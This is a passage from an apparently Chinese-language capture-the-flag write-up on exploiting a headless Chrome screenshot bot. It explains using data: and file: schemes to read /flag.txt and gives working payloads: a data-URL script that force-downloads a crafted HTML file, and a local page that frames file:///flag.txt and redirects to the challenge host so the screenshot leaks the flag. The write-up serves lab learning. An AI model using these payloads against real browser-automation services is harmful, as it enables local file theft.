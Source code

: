 ## Stage 3 Chrome %Any% URL Exploit

上面都看出来，我们可以让浏览器访问任意的 URL ！任意的欸！
所以我们完全可以指定不同的 Scheme 让它访问哦，比如 `data`, `blob`, `javascript`, 甚至 `file` ！

根据前面的 `docker-compose.yml`，我们知道 flag 存放在 `/flag.txt`
也就是说，用 `file:///flag.txt` 就可以访问到它！

用浏览器实验了确实可以，但，我们怎么把 Flag 传回来？

首先，我不得不介绍一下 Chrome 严谨的跨域机制，并且对 `file` scheme 也有独特的保护机制。

对于 `fetch` 等直接获取信息的东西，跨域是不能的，并且 `file` 处于特殊的地方，它和 `data` 一样都是以 `null` 作为 `origin` 并且不能互相访问的。

如果外部访问 `file` 的内容会直接被 `chrome` 阻止并且说 `Not allowed to load local resource`

也就是说，我不能用任何 `file` 之外的东西直接获取 `file` 的内容，连 `open` 和 `iframe` 都不能访问到 `file` 的东西，而这么做确实是为了安全。要不然随便一个网站都能读取你的本地资料，真害怕

然而 `chrome` 在一个地方有松懈，那就是 `file` 访问 `file` 的时候是不受这个限制的。因为有些时候确实需要打开本地的一个 `html` 来 `debug` 之类的。

需要注意的是从 `file` 访问 `file` 的时候，我们不能用跨域直接获取信息的方法，例如 `fetch` 和 `open` 的返回对象。但是 `open` 和 `iframe` 是可以正常用的。

并且这玩意是真的一个浏览器，和你用的一样！那么就会出现，文件系统的写，也就是保存文件。

经过实验，在这个系统里它是以 Root 跑的，所以我们的文件最后会被写到 `/root/Downloads/` 目录下面。这是个确定性并且决定性的结论。

好，那么我想了一上午总结了一套攻击流程如下：

1. 第一个请求先通过 `data` 域 向本地保存一个 `html` 文件，其中包含我们的 payload
2. 第二个请求打开我们保存的文件，这样我们就获得了一个 `file` 域的访问能力，也就是可以自由嵌套和打开新的本地文件
3. 最后在截图的一瞬间卡 timing，截图截到 `flag` 同时跳转到 `http://openresty:8080` 让接下来的代码把截图发过去，我们就能看到 `flag` 了。

好的，接下来就来到了快乐的 `payload` 构造时间

## Stage 4 Build Payload

为了快速我选择使用 `data` 来传递网页并且保存下载文件

```html
<body></body>
<script>let blob = new Blob([atob("<放入我们保存的html内容的b64编码>")], {type: 'text/html'});
let a = document.createElement("a");
a.download = "flagger.html";
a.href = URL.createObjectURL(blob);
document.body.appendChild(a);
a.dispatchEvent(new MouseEvent('click', {bubbles: true, cancelable: true}));</script>
```

这段代码是很经典的保存机制，通过触发点击事件保存文件。

那么下载的文件就需要先把 `flag` 展示出来让截图，然后迅速跳转到主页面来完成返回

```js
<iframe src="file:///flag.txt"></iframe>
<script>
    setTimeout(() => {
        let t = 5000 + (Math.random() * 2 - 1) * 100
        setTimeout(() => {
            document.location.href = "http://openresty:8080/api/get"
        }, t)
    })
</script>
```
